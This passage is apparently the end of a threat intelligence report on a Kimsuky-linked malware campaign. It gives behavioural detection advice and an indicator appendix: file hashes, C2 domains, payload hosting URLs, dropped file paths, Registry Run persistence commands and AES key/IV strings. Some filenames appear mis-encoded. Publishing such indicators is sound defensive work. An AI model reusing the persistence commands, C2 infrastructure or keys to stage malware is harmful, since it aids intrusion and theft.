The specific targeting of "Naver Whale" and NPKI certificates provides strong attribution to a North Korean nexus. Furthermore, the malware's focus on both traditional espionage (document theft) and financial gain (crypto-wallet theft) aligns with the dual-mission operational mandate often observed in Kimsuky operations.

Organizations are advised to move beyond signature-based detection and focus on behavioral monitoring—specifically looking for mshta.exe spawning PowerShell, unusual usage of curl or rundll32 targeting AppData paths, and unexpected network traffic to file-sharing services like Google Drive from non-browser processes.

# 4. Appendix: Indicators of Compromise (IOCs)

### File Hashes (SHA256)

| Filename        | Description                       | SHA256 Hash                                                      |
| --------------- | --------------------------------- | ---------------------------------------------------------------- |
| ╛╧╚ú.txt.lnk    | Malicious Shortcut (LNK)          | E51C6DAF902638023E5922A871279E57D858761EF500C3BCB214737CD39FCBDD |
| ▒╣╝╝ ░φ┴÷╝¡.pdf | Decoy PDF                         | 1D01EAB612DA7D635E6B92395EAD126E3E07B7987B3A38C8831E25CBCD5456B7 |
| pwko.hta        | Stage 1 Payload (HTA/VBS)         | 587BDF94BDAEBCEE4B51202BEB507125A7FA37D705FB38CC076A9C1814578411 |
| password.txt    | Text file containing PDF password | 912FC71662D52486838562581C3F44219A8E7B053590B13D4EDFBFC67E953D68 |
| v3.log          | Encrypted Stage 2 (Defender OFF)  | 411A5FD77961E5DF89A81165824EDA33D4B4049F26F7358ED2BC688B70430901 |
| v3.hta          | Decrypted Stage 2 Dropper         | A358AC6BE54B74AA1AF1D5FBFC26AA5D8EF714A042CC3AAFDF8CC0F777D9C773 |
| sys.dll         | Stage 3 Loader (Themida Packed)   | DE7FE8842C46BC5C2F723DEE3D4B07043D531D067C06CAA3263000BCC41AECDD |
| app64.log       | Encrypted Chrome Injector         | 181884C418D559FC9B4FA4BB98375851DD41277DBC88C8B16A1B3A5F4D9C4C80 |
| app.dll         | Decrypted Chrome Injector         | D9730FE0741E36E082CF4EDE6676F93A60AC85DEA3670C847B5B78E6E468A0C7 |
| net64.log       | Encrypted Spyware/Dropper         | 65A7265F4BCC97D596DAE982792F67C9813D7F3D231752175EA48C0D7E53B614 |
| net.dll         | Decrypted Spyware (UPX Packed)    | ECB963CE7F62EE000597F8409C9739EA582CCB97B120F24DC5BA7BDB8158D2F0 |
| main64.log      | Encrypted Persistent RAT          | 85D2053281A15362300B9A275C46461687B9C24FB318346A1820160776F461C1 |
| notepad.dll     | Decrypted Persistent RAT          | 67E58E80118577A3F011C7961E43EC1C9A5C16D58FB289B2E457618685EECAE4 |
| pipe.log        | Encrypted Stage 2 (Defender ON)   | 96D8753B41718D720DA256F72DA11ACF3F990E79585CF8A6596D5F2630332DF5 |
| pipe.zip        | Decrypted Stage 2 Archive         | 99405AB2AEAB2DC0ED91CF366CE24BF4B07647523296ABE35FFA95491D99B998 |
| appload.log     | Encrypted Stage 6 Loader          | FA65136F28DFE55998715CE82089AC21FE25FBA499BF607B45C7599E62C9A857 |
| app64.dll       | Decrypted Stage 6 (Enigma Packed) | 25E00987D62B5A88B54419BD4756B1E517B172E3AF18185325D05B37F6451593 |

### Network Indicators

| Domain / URL                     | Type   | Description                                            |
| -------------------------------- | ------ | ------------------------------------------------------ |
| link24.kr                        | Domain | Initial redirection / Traffic tracking                 |
| jjdhdh.nmailhub.com              | Domain | Primary C2 for notepad.dll (RAT)                       |
| quemr.mailhubsec.com             | Domain | Primary C2 for PowerShell payloads                     |
| `github.com/deepsearch-tech/ref` | URL    | Hosting pwko.hta (Payload Delivery)                    |
| drive.google.com                 | URL    | Hosting encrypted logs (v3.log, pipe.log, appload.log) |
### File Paths & Artifacts

| Path                             | Description                                |
| ----------------------------------| --------------------------------------------|
| %LOCALAPPDATA%\net               | Encrypted payload (loader target)          |
| %LOCALAPPDATA%\notepad.log       | Encrypted RAT payload                      |
| %LOCALAPPDATA%\micro.zip         | Dropped archive containing tools           |
| %LOCALAPPDATA%\pipe\             | Staging directory for Defender-active path |
| %LOCALAPPDATA%\netkey            | Keylogger storage file                     |
| %LOCALAPPDATA%\history.log       | Exfiltration staging file                  |
| %LOCALAPPDATA%\nzvwan.log        | Encrypted payload for Stage 6              |
| %APPDATA%\Telegram Desktop\tdata | Targeted directory for Telegram theft      |
### Persistence Mechanisms

| Type             | Key/Name                            | Value/Command                       |
| ---------------- | ----------------------------------- | ----------------------------------- |
| **Registry Run** | `HKCU\...\Run\NetService`           | rundll32 "%LOCALAPPDATA%\sys.dll",s |
| **Registry Run** | `HKCU\...\Run\WindowsSecurityCheck` | %localPath%\pipe\1.vbs              |
### Cryptographic Keys

| Key (Hex/String)                 | Algorithm | Usage                                    |
| ----------------------------------| -----------| ------------------------------------------|
| ftrgmjekglgawkxjynqrwxjvjsydxgjc | AES (Key) | Decrypting v3.log, pipe.log, appload.log |
| rhmrpyihmziwkvln                 | AES (IV)  | Decrypting v3.log, pipe.log, appload.log |